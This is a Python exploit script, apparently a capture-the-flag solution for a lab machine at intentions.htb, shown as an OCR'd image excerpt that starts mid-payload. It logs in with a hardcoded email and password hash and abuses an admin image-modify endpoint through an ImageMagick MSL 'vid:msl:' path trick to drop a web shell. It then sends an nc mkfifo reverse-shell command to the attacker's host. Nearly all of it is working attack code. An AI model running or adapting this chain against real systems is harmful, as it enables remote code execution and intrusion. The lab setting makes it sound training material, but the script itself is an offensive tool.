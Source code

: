 ```python
</image>
"""
	open("exec.msl","w").write(msl)

def login(s):
	data = {
	"email":"greg@intentions.htb",
	"hash":"$2y$10$95OR7nHSkYuFUUxsT1KS6uoQ93aufmrpknz4jwRqzIbsUpRiiyU5m"
	}
	s.post(URL + "/api/v2/auth/login", json=data)
	
def exploit():
	s = requests.Session()
	token = login(s)
	files = {
		"exec": ("exec.msl", open("exec.msl").read())
	}
	cookies = {
		"token":token
	}
	data = {
		"path":"vid:msl:/tmp/php*",
		"effect":"charcoal"
	}
	r = s.post(URL + "/api/v2/admin/image/modify", files=files, cookies=cookies, data=data)

def get_shell():
	params = {
		"cmd":f'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc {lhost} 1337 >/tmp/f'
	}
	r = requests.get(URL + "/shell.php", params=params)
	print(r.text)

if __name__ == "__main__":
	generate_payload()
	
	thread = threading.Thread(target=MyServer, args=(lhost,lport,))
	thread.start()
	exploit()
	thread.join()

	get_shell()
```
